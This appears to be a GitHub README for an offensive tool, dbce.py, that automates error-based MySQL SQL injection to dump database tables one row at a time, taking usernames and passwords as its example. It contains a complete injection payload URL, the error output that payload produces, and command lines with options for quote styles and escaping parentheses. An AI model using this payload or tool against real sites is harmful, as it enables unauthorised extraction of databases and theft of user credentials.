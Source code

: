 Database Content Extractor
==========================

## Description
This is meant as a helper tool for those situations where you are only allowed to output a single row. For example inside error messages.

#### How does it work?
The way that the tool works is that it will append a query to the end of the defined target. This query will generate a MySQL error that includes the content pulled from the database.

#### Example

We wan't to extract the username and password of all the users in a database, but we are limited to extracting them one by one.

**The query**

    http://target/?id=1'+or+1+group+by+concat((select+concat(0x3c647164756d703e,concat_ws(0x3a,username,password),0x3c2f647164756d703e)+from+users+limit+0,1),0x00,ceil(rand(0)*2))+having+min(0)+--+-

**The output**

    Duplicate entry 'someuser:thepassword' for key 'group_key'

Now the script will go into a loop where on every loop it will increment the value of the LIMIT clause by 1 ...

    LIMIT 0,1
    LIMIT 1,1
    LIMIT 2,1
    .....

... until there's no more rows to return.

## Usage

**The very basics**

    python3 dbce.py -t http://target/?id=1 -T users -C username,password

**Changing format**

A site does not always use the single quote, so if you need to use double or no quote at all you change the format to either double or integer.

    python3 dbce.py -t http://target/?id=1 -T users -C username,password -f double
    python3 dbce.py -t http://target/?id=1 -T users -C username,password -f integer

**Prepending**

For example if a site is using parenthesis you need to escape out of it. This can be done by adding the prepend option

    python3 dbce.py -t http://target/?id=1 -T users -C username,password -p ")"

**Dump to file**

    python3 dbce.py -t http://target/?id=1 -T users -C username,password -o file

**Quiet mode**

When dumping to a file there's really no need to fill up your screen with all the extracted content.

    python3 dbce.py -t http://target/?id=1 -T users -C username,password -o file -q


## Options

    -t | --target=    Target website (i.e: http://www.target.com/?id=1)
    -T | --table=     Database table
    -C | --columns=   Columns to extract
    -f | --format=    What type of injection the tool needs to use. (Supported: single, double, integer)
                      Explained:
                      single  - Single quoted (Default)
                      double  - Double quoted
                      integer - No quote
    -p | --prepend=   Prepend custom injections
    -o | --output=    Write output to file
    -q | --quiet      Do not print results to the console

## Changelog
**v0.3**

* Fixed bugs
* Added two new parameters; output and quiet
    * Output (-o | --output) - Write output to file
    * Quiet (-q | --quiet) - Results will not be printed to the terminal

**v0.2**

* Added 2 new parameters; format and prepend
    * Valid formats: single, double and integer
    * Prepend custom payloads between parameter and default query
* Changed name since it's no longer just aimed at double query injection
* Added timer to see how long the process took
